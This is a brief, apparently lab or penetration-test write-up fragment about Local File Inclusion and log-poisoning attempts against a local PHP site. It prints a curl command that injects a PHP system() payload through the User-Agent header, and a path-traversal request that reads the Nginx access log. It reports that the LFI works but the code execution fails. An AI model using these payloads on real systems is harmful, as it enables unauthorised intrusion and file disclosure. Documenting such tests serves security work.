

Injected PHP payload via the User-Agent header using curl:
curl -A "<?php system('id'); ?>" http://127.0.0.1/
Successfully retrieved the Nginx access logs using Local File Inclusion (LFI):
curl "http://127.0.0.1/our-projects.php?project=../../../../var/log/nginx/access.log"
Log entries confirmed injection, but PHP payload was not executed (logged as plain text).
Conclusion:
· LFI vulnerability confirmed but log poisoning failed to trigger PHP code execution.
# Log Poisoning & LFI Exploitation: